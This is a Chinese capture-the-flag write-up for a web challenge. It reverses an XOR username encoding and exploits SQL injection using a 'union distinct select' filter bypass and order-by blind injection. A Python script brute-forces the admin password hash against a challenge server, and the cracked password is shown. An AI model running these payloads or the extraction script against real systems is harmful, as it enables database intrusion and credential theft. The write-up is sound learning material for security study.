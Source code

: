 分析出加密的方式，写个脚本
```
key = "1470"*10
name = "' AND select 1#"

name =  ''.join(reversed(list(name)))
tmp=[]
for i in range(len(name)):
	tmp.append(hex(ord(name[i])^ord(key[i]))[2:].zfill(2))

enc = ''.join(tmp)
print enc

```

猜测是sql注入，但是有点儿麻烦的是union select和括号被过滤了，很难受。

后来查到可以用用union distinct select方式绕过union select ，然后使用order by盲注

`admin'union distinct select 1,’test’,'3' order by 3 desc# `
如果username返回的是admin，那么自己构造的password小于admin的密码
大于的话就会返回test

```
 import requests
#5AF1AB27B1BE8BB8E39BDF98CD2CFCE4
password = ""
for i in range(0,33):
	for j in range(33,127):
		key = "1470"*100
		name = "admin'union distinct select 1,'test','"+password+chr(j)+"' order by 3 desc #"
		print name
		name =  ''.join(reversed(list(name)))
		tmp=[]
		print len(name)
		for i in range(len(name)):
		    tmp.append(hex(ord(name[i])^ord(key[i]))[2:].zfill(2))	

		enc = ''.join(tmp)
		print enc	

		r = requests.post(url = "http://58.213.63.30:10005" , data = {'username':enc,'password':'123'})
		# print r. content
		if "test" in r.content:
			password = password+chr(j-1)
			break
print password 
```

密码5AF1AB27B1BE8BB8E39BDF98CD2CFCE4
拿cmd5查
密码明文:CleverBoy123
加密之后
```
username=”5f5d5a5450”
password=”020606495e76455547515b73”
```


  [1]: http://static.zybuluo.com/LoRexxar/t2e9kvty7o8xv0kj5x7uh18d/image_1b9uuk1n36lm1gonn8bemmv99.png